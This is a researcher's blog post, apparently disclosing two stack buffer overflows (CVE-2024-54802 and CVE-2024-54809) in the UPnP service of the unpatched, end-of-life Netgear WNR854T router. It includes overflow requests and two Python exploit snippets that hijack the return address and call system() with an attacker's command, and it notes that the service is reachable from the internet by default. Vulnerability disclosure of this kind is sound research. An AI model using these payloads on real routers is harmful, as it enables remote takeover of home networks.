


+++
date = '2025-05-04T19:00:31-04:00'
title = 'Pwning My Childhood Router'
+++

# Intro

I competed in [The Junkyard](https://www.districtcon.org/2025/junkyard) at DistrictCon Year 0, an end-of-life pwnathon where my group and I presented eight 0-days on the [Netgear WNR854T](https://www.netgear.com/support/product/wnr854t/). Funny enough, that was the same router my family used growing up. In this post, I'll walk through two memory corruption bugs we found in its UPnP service, how we discovered them, and how we got code execution.

# Overflow via `HOST` Header ([CVE-2024-54802](https://www.cve.org/CVERecord?id=CVE-2024-54802))

This bug is a classic stack-based buffer overflow triggered by an excessively long `HOST` header in an M-SEARCH request. The vulnerable function uses `strcpy` at offset `0x22bc4` to copy the header into a stack buffer without bounds checking:



If an attacker sends an M-SEARCH with a ridiculously long `HOST` value, it overflows the buffer and overwrites adjacent memory on the stack, including the return address.

This is what a normal M-SEARCH request looks like:

```
M-SEARCH * HTTP/1.1
HOST: 239.255.255.250:1900
MAN: "ssdp:discover"
MX: 3
ST: upnp:rootdevice
```

But, with an oversized `HOST` field, it would overflow the allocated buffer on the stack:

```
M-SEARCH * HTTP/1.1
HOST: AAAAAAAAAAAAAAAAAAAAAAAAAAAA...
MAN: "ssdp:discover"
MX: 3
ST: upnp:rootdevice
```

We crafted a malicious M-SEARCH request that overwrites the return address and redirects execution to a ROP gadget at `0x2d4dc` (`mov r0, r5; bl system`) to execute arbitrary shell commands.

```py
payload_pt1 = b'Z' * 304 # padding
payload_pt2 = (
    b'A' * 4 +  # R4
    b'B' * 4 +  # R5 (command string here)
    b'C' * 4 +  # R6
    b'D' * 4 +  # R7
    b'E' * 4 +  # R8
    b'\xdc\xd4\x02'  # mov r0, r5 ; bl system
)

ret = p32(0xbeffeb20 + (len(cmd.encode()) * 3) + 1)
payload_pt2 = payload_pt2.replace(b'BBBB', ret)

message = (
    payload_pt1 + b'\r\n' +
    payload_pt2 + b'\r\n' +
    b'MAN:"ssdp:discover"\r\n
	b'MX:2\r\n
	b'\r\n' 
) + p32(0xdeadbeef) + (b' ' * 255) + cmd.encode()

sock.sendto(message, (host, 1900))
```

# Overflow via `ST` Header ([CVE-2024-54809](https://www.cve.org/CVERecord?id=CVE-2024-54809))

Another buffer overflow, but it's the parsing of the `ST` header that's triggering the issue. The vulnerable code lives at offset `0x23240`, which is a `strncpy`, but the size parameter ends up being user-controlled since it's obtained arithmetically by parsing the `ST` header:




The code looks for the `:device:` delimiter, then tries to extract the part that comes after it (`printer` in this case):

```
ST: uuid:schemas:device:printer
```

It calculates the length `n` by subtracting pointers: the start of the value (`first`) and the point just after the `:device:` tag (`first_after_device`). Then it uses `strncpy` to copy `n` bytes into a stack buffer. The problem? That `n` value is completely controlled by an attacker. There's no bounds check. If someone sends a value like this:

```
ST: uuid:schemas:device:AAAAAAAAAAAAAAAAAAAAAAAAAAAA...:
```

...the `n` calculation stretches all the way to the next delimiter, and if it's placed far away, `n` becomes massive, allowing `strncpy` to copy past the stack buffer. This parsing logic assumes the input will be nice and well-formed, but it won't be for a malicious request.

And again, we can overwrite the return address and pivot to a `system()` call:

```py
payload = (
    b'Z' * 284 +  # padding
    b'A' * 4 +    # R4
    b'B' * 4 +    # R5 (command string here)
    b'C' * 4 +    # R6
    b'D' * 4 +    # R7
    b'E' * 4 +    # R8
    b'\xdc\xd4\x02'  # mov r0, r5 ; bl system
)

ret = p32(0xbefff540 + (len(cmd.encode()) * 3) + 1)
payload = payload.replace(b'BBBB', ret)

message = (
    b'M-SEARCH * HTTP/1.1\r\n'
    b'HOST:239.255.255.250:1900\r\n'
    b'MAN:"ssdp:discover"\r\n'
    b'MX:2\r\n'
    b'ST:uuid:schemas:device:' + payload + b':\x00\r\n\r\n' 
) + p32(0xdeadbeef) + (b' ' * 255) + cmd.encode() 

sock.sendto(message, (host, 1900))
```

# Final Thoughts

Netgear never patched this model as it's been end-of-life for years. But what makes these bugs even more dangerous is that the UPnP service is exposed on the WAN interface by default, meaning attackers can exploit them over the internet. And with zero memory protections on the device, reliable remote code execution is quite easy.

Thanks for reading! This was my first blog post 🥳